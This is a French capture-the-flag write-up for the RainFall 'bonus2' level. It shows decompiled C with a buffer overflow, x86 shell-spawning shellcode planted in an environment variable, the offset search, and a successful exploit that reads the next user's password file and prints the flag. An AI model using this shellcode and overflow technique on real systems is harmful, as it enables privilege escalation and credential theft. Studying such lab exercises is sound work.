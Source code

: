 Read also: [./Resources/README.md](./Resources/README.md)

https://dogbolt.org/?id=2e8bb7ea-1f7b-4c7b-a01b-0ff9afb4fc75 

# Source

```c
//----- (08048484) --------------------------------------------------------
int __cdecl greetuser(char src)
{
  __int128 dest; // [esp+10h] [ebp-48h] BYREF
  __int16 v3; // [esp+20h] [ebp-38h]
  char v4; // [esp+22h] [ebp-36h]

  switch ( language )
  {
  case 1:
    dest = xmmword_8048717;
    v3 = *((_WORD *)&xmmword_8048717 + 8);
    v4 = *((_BYTE *)&xmmword_8048717 + 18);
    break;
  case 2:
    strcpy((char *)&dest, "Goedemiddag! ");
    break;
  case 0:
    strcpy((char *)&dest, "Hello ");
    break;
  }
  strcat((char *)&dest, &src);
  return puts((const char *)&dest);
}
// 8048717: using guessed type __int128 xmmword_8048717;
// 8049988: using guessed type int language;

//----- (08048529) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[76]; // [esp+0h] [ebp-ACh] BYREF
  char dest[76]; // [esp+50h] [ebp-5Ch] BYREF
  char *v6; // [esp+9Ch] [ebp-10h]

  if ( argc != 3 )
  return 1;
  memset(dest, 0, sizeof(dest));
  strncpy(dest, argv[1], 40);
  strncpy(&dest[40], argv[2], 32);
  v6 = getenv("LANG");
  if ( v6 )
  {
  if ( !memcmp(v6, "fi", 2) )
  {
    language = 1;
  }
  else if ( !memcmp(v6, "nl", 2) )
  {
    language = 2;
  }
  }
  qmemcpy(v4, dest, sizeof(v4));
  return greetuser(v4[0]);
}
// 8049988: using guessed type int language;
// 8048529: using guessed type char dest[76];
```

# Explication

Le premier argument doit faire au maximum 40 (76 pour le buffer overflow) caractères et le deuxième 25 (40 + 15 + '\0' = 76). Sinon on a un overflow.

```
 ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "b" * 25')
```

On va utiliser la méthode du shellcode : (On reprend notre shellcode favori)
```
export ICE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";')
```

L'adresse d'ICE est `\x17\xfe\xff\xbf`.

Quand on utilise sans gdb ça ne SEGFAULT pas au même endroit donc on va chercher l’emplacement mémoire sans gdb (supposition : apparement gdb n’utilise pas
de bloc mémoire en multiple de 16), on utilise dmesg pour récupérer la valeur d’eip/esp.

**(à tester après avoir export ICE, l'alignement mémoire n'est pas le même sinon)**

Exemple d'utilisation de `dmesg | grep segfault` pour voir les SEGFAULT :

```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "b" * 26')
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 14 + "BBBB" + "a" * 22') $(python -c 'print "b" * 26')
Hello aaaaaaaaaaaaaaBBBBaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$ dmesg | grep segfault
[25010.142648] bonus2[7926]: segfault at 61616161 ip 61616161 sp bffff108 error 14
[25024.417468] bonus2[7932]: segfault at 42424242 ip 42424242 sp bffff108 error 14
```

En regardant le code source on sait que la taille minimale pour faire segfault est 40 et 26 (= 76).

```
./bonus2 $(python -c 'print "a" * 14 + "\x17\xfe\xff\xbf" + "a" * 22') $(python -c 'print "b" * 26')

bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 14 + "\x17\xfe\xff\xbf" + "a" * 22') $(python -c 'print "b" * 26')
Hello aaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb
$ whoami
bonus3
$ cat /home/user/bonus3/.pass    
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

Le flag est donc:

```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
